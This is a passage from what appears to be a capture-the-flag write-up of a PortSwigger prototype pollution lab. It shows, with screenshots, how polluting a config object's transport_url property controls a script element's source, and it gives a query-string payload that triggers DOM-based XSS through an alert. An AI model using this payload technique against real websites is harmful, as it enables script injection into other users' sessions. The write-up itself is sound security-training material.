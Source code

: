 **Then, use the browser "Elements" tab to confirm we can controll the `src` attribute of the `<script>` element:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-1/images/Pasted%20image%2020230115192615.png)

As you can see, we changed the `<script>` element's `src` attribute to `bar`!

**Finally, we can craft a payload that exploit the DOM-based XSS via polluting the `transport_url` property in `config` object:**
```js
/?__proto__[transport_url]=data:,alert(document.domain);//
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-1/images/Pasted%20image%2020230115193433.png)
